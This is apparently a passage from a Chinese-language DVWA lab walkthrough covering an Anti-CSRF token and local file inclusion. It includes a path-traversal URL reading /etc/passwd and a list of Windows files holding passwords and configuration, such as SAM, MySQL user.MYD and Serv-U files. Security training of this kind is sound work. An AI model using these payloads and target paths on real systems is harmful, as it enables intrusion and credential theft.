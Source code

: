 ```php
?>
```

我们可以看到这里是添加了一个`Anti-CSRF token`，每次访问都会产生一个随机值，我们在更改密码时都需要提交这个随机值和服务器上的进行匹配。

之前找到的ifram获取token的方法，尝试之后发现因为同源策略的问题，没有办法获取到，因此需结合其他方法获得。

# File Inclusion

## low

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

我们首先点击file1.php，观察包含文件在url中。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200214145932.png)

因此我们可以构造url中的参数，找服务器中的敏感文件。

我们首先输入一个`http://172.16.34.167/dvwa/vulnerabilities/fi/?page=/etc/passwd`

可以看到报错信息，发现网站存放的绝对路劲。

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200220110503.png"  />

以下贴出查到的一些敏感文件。

Windows:

```powershell
c:/boot.ini #查看系统版本 
c:/windows/php.ini #php配置信息 
c:/windows/my.ini #MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码 
c:/winnt/php.ini 
c:/winnt/my.ini 
c:\mysql\data\mysql\user.MYD #mysql.user表中的数据库连接密码 
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini #存储了虚拟主机网站路径和密码 
c:\Program Files\Serv-U\ServUDaemon.ini 
c:\windows\system32\inetsrv\MetaBase.xml #查看IIS的虚拟主机配置 
c:\windows\repair\sam #WINDOWS系统初次安装的密码 
c:\Program Files\ Serv-U\ServUAdmin.exe #6.0版本以前的serv-u管理员密码 
c:\Program Files\RhinoSoft.com\ServUDaemon.exe 
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件  #存储了pcAnywhere的登陆密码 
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf #查看WINDOWS系统apache文件 
c:/Resin-3.0.14/conf/resin.conf #查看jsp开发的网站resin文件配置信息. 
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf #查看linux系统配置的JSP虚拟主机 
d:\APACHE\Apache2\conf\httpd.conf 
C:\Program Files\mysql\my.ini 
C:\mysql\data\mysql\user.MYD #存在MYSQL系统中的用户密码 
C:\Windows\System32\drivers\etc\hosts
winserver配置
Telnet信息
```
